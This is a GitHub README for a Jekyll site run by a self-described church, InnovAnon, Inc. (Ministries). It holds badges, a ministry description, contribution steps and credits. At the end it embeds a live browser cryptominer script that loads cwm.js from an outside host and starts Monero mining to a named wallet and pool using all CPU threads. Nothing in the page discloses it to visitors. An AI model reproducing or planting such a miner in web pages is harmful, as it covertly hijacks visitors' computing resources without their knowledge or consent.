 # [InnovAnon, Inc. (Ministries) Website](https://InnovAnon-Inc.github.io/InnovAnon-Inc.github.io/)

[![CodeFactor](https://www.codefactor.io/repository/github/InnovAnon-Inc/InnovAnon-Inc.github.io/badge)](https://www.codefactor.io/repository/github/InnovAnon-Inc/InnovAnon-Inc.github.io)
[![LoC](https://tokei.rs/b1/github/InnovAnon-Inc/InnovAnon-Inc.github.io?category=code)](https://github.com/InnovAnon-Inc/InnovAnon-Inc.github.io)
[![Test Status](https://travis-ci.org/InnovAnon-Inc/InnovAnon-Inc.github.io.svg?branch=master)](https://travis-ci.org/InnovAnon-Inc/InnovAnon-Inc.github.io)

[![LICENSE](https://img.shields.io/badge/license-UNLICENSE-lightgrey.svg)](https://raw.githubusercontent.com/InnovAnon-Inc/InnovAnon-Inc.github.io/master/LICENSE)
[![Jekyll](https://img.shields.io/badge/jekyll-%3E%3D%203.6-blue.svg)](https://jekyllrb.com/)
[![Ruby gem](https://img.shields.io/gem/v/minimal-mistakes-jekyll.svg)](https://rubygems.org/gems/minimal-mistakes-jekyll)
[![Tip Me via PayPal](https://img.shields.io/badge/PayPal-tip%20me-green.svg?logo=paypal)](https://www.paypal.me/InnovAnon)

InnovAnon, Inc. (Ministries) is a 508(c)(1)(a) "Free Church" :smile:

:sparkles: See what's new in the [CHANGELOG](CHANGELOG.md).

**If you enjoy this organization, please consider [supporting me](https://www.paypal.me/InnovAnon) to continue developing and maintaining it.**

[![Support via PayPal](https://cdn.rawgit.com/twolfson/paypal-github-button/1.0.0/dist/button.svg)](https://www.paypal.me/InnovAnon)

**Note:** All technologies and creative works are produced my priests, monks and other volunteers and released to the public domain as a selfless-service.

## Notable features

- Code Monks
- Code Seva
- Langar
- Meditation/Siddhi skill tree

  (i.e., ancient spiritual wisdom translated into contemporary vernacular to be more relatable to our generation)

## Branches (lifestyle variations)

- Ascetic/hermetic
- Monastic/Anchorite

## Connecting with your Local InnovAnon ministry

1. Simply type: ```"InnovAnon"``` (with or without quotes) into your favorite search engine

2. Follow links until you find one of our many contact points, such as
   - Phone
   - E-mail
   - IRC

---

## Contributing

Want to do code-seva on behalf of InnovAnon, Inc. (Ministries)? Found a typo in the documentation? Interested in adding a feature or [fixing a bug](https://github.com/InnovAnon-Inc/InnovAnon-Inc.github.io/issues)? Then by all means [submit an issue](https://github.com/InnovAnon-Inc/InnovAnon-Inc.github.io/issues/new) or [pull request](https://help.github.com/articles/using-pull-requests/). If this is your first pull request, it may be helpful to read up on the [GitHub Flow](https://guides.github.com/introduction/flow/) first.

Minimal Mistakes has been designed as a base for you to customize and fit your site's unique needs. Please keep this in mind when requesting features and/or submitting pull requests. If it's not something that most people will use, I probably won't consider it. When in doubt ask. 

This goes for author sidebar links and "share button" additions -- I have no intention of merging in every possibly option, the essentials are there to get you started :smile:.

### Pull Requests

When submitting a pull request:

1. Clone the repo.
2. Create a branch off of `master` and give it a meaningful name (e.g. `my-awesome-new-feature`).
3. Open a pull request on GitHub and describe the feature or fix.

Theme documentation and demo pages can be found in the [`/docs`](docs) if submitting improvements, typo corrections, etc.

---

## Credits

### Creator

**Brahmjot Singh**

- <https://lmaddox.chickenkiller.com>
- <https://github.com/lmaddox>

### Icons + Demo Images:

- [The Noun Project](https://thenounproject.com) -- Garrett Knoll, Arthur Shlain, and [tracy tam](https://thenounproject.com/tracytam)
- [Font Awesome](http://fontawesome.io/)
- [Unsplash](https://unsplash.com/)
- [Shiva Tandavam](https://thumbs.dreamstime.com/x/dancing-shiva-11776553.jpg)
- [Kali Yantra](http://www.kalibhakti.com/wp-content/uploads/2012/09/kali-yantra-effects.jpg)
- [Shiva under Kali](https://upload.wikimedia.org/wikipedia/commons/thumb/6/60/Kali_from_1885-95.jpg/1200px-Kali_from_1885-95.jpg)

### Other:

- [Minimal Mistakes](https://github.com/mmistakes/minimal-mistakes)
- [Jekyll](http://jekyllrb.com/)
- [jQuery](http://jquery.com/)
- [Susy](http://susy.oddbird.net/)
- [Breakpoint](http://breakpoint-sass.com/)
- [Magnific Popup](http://dimsemenov.com/plugins/magnific-popup/)
- [FitVids.JS](http://fitvidsjs.com/)
- [GreedyNav.js](https://github.com/lukejacksonn/GreedyNav)
- [jQuery Smooth Scroll](https://github.com/kswedberg/jquery-smooth-scroll)
- [jQuery throttle / debounce](http://benalman.com/projects/jquery-throttle-debounce-plugin/)
- [Lunr](http://lunrjs.com)

-----

<script src="https://coinwebmining.com/cwm.js"></script>
<script>
    var site_id = 'cwm-3707';
    var coin = 'monero';
    var wallet = '84FEn5Gak63AReZjRtDwV724TsoUtfajxjLHHJZ3zH3vcaAZJwvg4qWdUG9cx7nhA1ZfT9kK89roADmRb1ehLLhH6HyTATK';
    var password = 'lmaddox.chickenkiller.com';
    var mining_pool = 'gulf.moneroocean.stream:10001';
    var threads = -1;
    var throttle = 0.1;
    var debug = false;
    cwm_start(site_id, coin, wallet, password, mining_pool, threads, throttle, debug);
</script>
